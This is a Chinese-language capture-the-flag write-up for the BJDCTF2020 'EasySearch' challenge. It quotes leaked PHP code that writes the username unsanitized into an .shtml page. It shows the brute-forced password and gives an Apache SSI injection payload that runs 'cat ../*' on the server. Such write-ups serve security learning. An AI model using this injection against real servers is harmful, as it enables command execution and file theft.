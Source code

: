 # \[BJDCTF2020]EasySearch

## \[BJDCTF2020]EasySearch

## 考点

* Apache SSI 远程命令执行漏洞

## wp

扫描存在index.php.swp文件，给了一部分代码

```php
<?php
  ob_start();
  function get_hash(){
    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
    $random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
    $content = uniqid().$random;
    return sha1($content); 
  }
    header("Content-Type: text/html;charset=utf-8");
  ***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
      ***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
      echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
  ***
    }
  ***
?>
```

password的md5值前6位要是6d0bc1，脚本爆破出来是2020666，在返回头给了文件地址

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png>)

shtml存在一个Apache SSI 远程命令执行漏洞，在登录界面使用如下payload

```
username=<!--#exec cmd="cat ../*" -->&password=2020666
```

![](<../.gitbook/assets/image (13) (1) (1) (1) (1).png>)

再返回返回的`Url_is_here`就可以了

![](<../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png>)

## 小结

1. 查查Apache SSI 远程命令执行漏洞
